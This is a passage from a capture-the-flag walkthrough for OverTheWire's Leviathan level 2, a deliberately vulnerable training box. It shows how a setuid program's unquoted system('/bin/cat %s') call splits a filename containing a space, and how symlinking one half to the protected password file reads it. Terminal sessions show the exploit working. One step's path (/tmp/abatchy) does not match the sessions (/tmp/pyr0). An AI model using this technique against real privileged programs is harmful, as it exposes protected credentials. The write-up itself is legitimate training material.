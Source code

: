Let's break this down:

1. The executable binary takes a file name as argv input.
2. Calls the `access()` function to check if it has permissions to read that file (`O_RDONLY`).
3. Creates a string using the `sprintf` function, using this format `sprintf("/bin/cat %s", filename)`
4. Makes a `system()` call and executes the string.

Let's examine the `cat` behaviour:

```console
leviathan2@leviathan:/tmp/pyr0$ echo 1 > a
leviathan2@leviathan:/tmp/pyr0$ echo 2 > b
leviathan2@leviathan:/tmp/pyr0$ echo 3 > "a b"
leviathan2@leviathan:/tmp/pyr0$ cat a b
1
2
leviathan2@leviathan:/tmp/pyr0$ cat "/tmp/pyr0/a b"
3
leviathan2@leviathan:/tmp/pyr0$ cat /tmp/pyr0/a b 
1
2
leviathan2@leviathan:/tmp/pyr0$ ~/printfile /tmp/pyr0/a b
1
leviathan2@leviathan:/tmp/pyr0$ ~/printfile "/tmp/pyr0/a b"
1
2
```

Notice how `cat` handled it vs the `printfile` executable. From the output, we can see that there is a small security hole in the way this `printfile` program functions.
When `system("/bin/cat /tmp/pyr0/a b")` is executed, it prints the content of a and b, not the *"a b"* file itself. 

So how do we access the `/etc/leviathan_pass/leviathan3` file containing the password? 

Easy we can create a symbolic link using the `ln` command to that file.

Here's how:

1. Symlink `b` to `/etc/leviathan_pass/leviathan3`
2. Execute `printfile "/tmp/abatchy/printfile a b"`

```console
leviathan2@leviathan:/tmp/pyr0$ ln -s /etc/leviathan_pass/leviathan3 b
leviathan2@leviathan:/tmp/pyr0$ ~/printfile "/tmp/pyr0/a b"
1
password_to_leviathan3
```

<details><summary>Show Answer</summary></details>

---

## Leviathan 3 -> 4
[https://overthewire.org/wargames/leviathan/leviathan4.html](https://overthewire.org/wargames/leviathan/leviathan4.html)

